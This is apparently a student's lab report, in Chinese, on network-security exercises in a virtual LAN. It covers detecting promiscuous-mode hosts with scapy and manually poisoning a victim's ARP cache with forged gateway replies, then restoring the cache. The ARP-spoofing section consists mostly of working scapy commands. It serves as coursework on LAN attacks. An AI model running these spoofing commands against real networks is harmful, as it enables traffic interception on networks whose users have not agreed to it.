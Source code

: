 ## 实验四：网络拓扑

### **网络拓扑**


![](./img/网络拓扑图.PNG)


网络中的节点基本信息如下：

| id       | ip address   | mac address
| ---   | --- | --- |
| Debian-gateway   | 172.16.111.1/24 |  08:00:27:47:aa:70
|    kali-attacker    | 172.16.111.147/24   | 08:00:27:25:6c:52
| kali-victim-1|172.16.111.117/24|08:00:27:1e:72:79



### **实验准备**

**安装 scapy**

在攻击者主机上提前安装好 scapy 

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](./img/成功安装scapy.PNG)

### **实验一：检测局域网中的异常终端**

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](./img/检查混杂模式是否启用.PNG)


```
# 在攻击者主机上开启 scapy
sudo scapy
```

![](./img/开启scapy.PNG)


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```

![](./img/promiscping1.PNG)


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](./img/开启混杂模式.PNG)



```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")
```

![](./img/比较差异.PNG)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
**PS：**

输出差异：在受害者主机未开启混杂模式前，攻击者主机收到`0 packet 0 answer`, 而开启后攻击者主机收到`1 packet 1 answer`。

### **实验二：手工单步“毒化”目标主机的 ARP 缓存**

以下代码在攻击者主机上的 scapy 交互式终端完成。

1.获取当前局域网的网关 MAC 地址

```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](./img/ARP请求报文.PNG)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](./img/发送ARP请求.PNG)

2.伪造网关的 ARP 响应包

```
# 准备发送给受害者主机 172.16.111.117
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

```

![](./img/发送伪造ARP.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

![](./img/ARP欺骗成功.PNG)

3.恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:47:aa:70", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")
sendp(restorepkt1, count=100, inter=0.2)
```


![](./img/攻击者恢复ARP.PNG)


```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](./img/受害者刷新ARP.PNG)


### **遇到的问题与解决办法**

- 伪造网关的 ARP 响应包失败,在受害者主机上查看 ARP 缓存
    ![](./img/ARP缓存不对.PNG)

   -   解决：将`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`改为`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`即可



### **参考资料**

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)